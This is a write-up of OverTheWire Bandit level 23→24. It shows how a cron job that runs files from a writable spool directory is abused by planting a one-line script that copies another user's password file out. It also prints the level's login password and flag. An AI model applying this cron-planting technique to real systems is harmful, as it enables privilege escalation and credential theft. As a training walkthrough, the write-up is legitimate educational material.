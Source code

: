 <p align="center">
<a href="level-22→23.md">Previous Level: Level 22 → 23</a>
</p>

# [Bandit Level 23 → 24](https://overthewire.org/wargames/bandit/bandit24.html)

## Login Info
- **SSH:** `ssh bandit.labs.overthewire.org -p 2220 -l bandit23`
- **Password:** `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

---

## Task 
The goal of this level is to look in **/etc/cron.d/** for the configuration of **cron** and see what command is being executed.


## Steps
Let's do the same as the previous levels:
```bash
bandit23@bandit:~$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ ls 
behemoth4_cleanup  clean_tmp  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  e2scrub_all  leviathan5_cleanup  manpage3_resetpw_job  otw-tmp-dir  sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
This is the script being executed by cron, at a glance we can get an idea of what its trying to achieve.
The myname variable is set to bandit24 as dictated by the cronjob `* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null`.  
The script then changes directories to `cd /var/spool/$myname/foo` and executes all scripts before deleting them.
So for this level we are to write our own bash script and place that file in `/var/spool/bandit24/foo`.  

Let's start of by making a tmp directory to work out of:
```bash
bandit23@bandit:/etc/cron.d$ mktemp -d
/tmp/tmp.hXffjlkbR9
```
This directory should be unique to you, so it will not be exactly the same as shown here.  
After changing directories to the temp directory, we can use `nano` to write our script:
```bash
bandit23@bandit:/etc/cron.d$ cd /tmp/tmp.hXffjlkbR9
bandit23@bandit:/tmp/tmp.hXffjlkbR9$ nano myscript.sh
```
A new window should pop up and it is here we will write our script:
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.hXffjlkbR9/password.txt
```
We start off the script with a **shebang** `#!/bin/bash` which is a special character sequence at the very first line of a script.
- `#!` tells the OS to "use this program to run the rest of the file"
- `/bin/bash` is the path to the interpreter (in this case the Bash shell).

Since this script is run as bandit24, bandit24 will have permissions to their own password in `/etc/bandit_pass`, so we can copy that password to our temp directory in a new file called `password.txt` which we'll create afterwards.
Save the script with `ctrl+s` and close `nano` with `ctrl+x`.
Now let's create **password.txt** and adjust some permissions so that bandit24 can execute the script created by bandit23 and write to bandit23's tmp directory and password.txt file
```bash
bandit23@bandit:/tmp/tmp.hXffjlkbR9$ touch password.txt
bandit23@bandit:/tmp/tmp.hXffjlkbR9$ ls -l
total 4
-rw-rw-r-- 1 bandit23 bandit23 77 Oct  1 09:12 myscript.sh
-rw-rw-r-- 1 bandit23 bandit23  0 Oct  1 09:13 password.txt
bandit23@bandit:/tmp/tmp.hXffjlkbR9$ chmod 777 myscript.sh
bandit23@bandit:/tmp/tmp.hXffjlkbR9$ chmod 777 password.txt
bandit23@bandit:/tmp/tmp.hXffjlkbR9$ chmod 777 /tmp/tmp.hXffjlkbR9
bandit23@bandit:/tmp/tmp.hXffjlkbR9$ ls -l
total 4
-rwxrwxrwx 1 bandit23 bandit23 77 Oct  1 09:12 myscript.sh
-rwxrwxrwx 1 bandit23 bandit23  0 Oct  1 09:13 password.txt
```

Now all thats left to do is to copy our script into `/var/spool/bandit24/foo`:
```bash
bandit23@bandit:/tmp/tmp.hXffjlkbR9$ cp myscript.sh /var/spool/bandit24/foo/myscript.sh
bandit23@bandit:/tmp/tmp.hXffjlkbR9$ cat /var/spool/bandit24/foo/myscript.sh
#!/bin.bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.hXffjlkbR9/password.txt
bandit23@bandit:/tmp/tmp.hXffjlkbR9$ cat /var/spool/bandit24/foo/myscript.sh
cat: /var/spool/bandit24/foo/myscript.sh: No such file or directory
bandit23@bandit:/tmp/tmp.hXffjlkbR9$ cat password.txt
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
You might have to wait up to a minute for the cron script to execute the script we wrote.

## Flag
```bash
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

## Notes
- A **shebang** `#!` at the top of the script tells the system which interpreter should run the script.
- For bandit24 to execute and modify files or directories created by bandit23, the permission settings must be adjusted.
- `chmod 777` sets the permissions of a file or directory so that everyone can **read, write and execute** it. This is generally considered unsafe, but for the purposes of this CTF its fine.


<p align="center">
<a href="level-24→25.md">Next Level: Level 24 → 25</a>
</p>


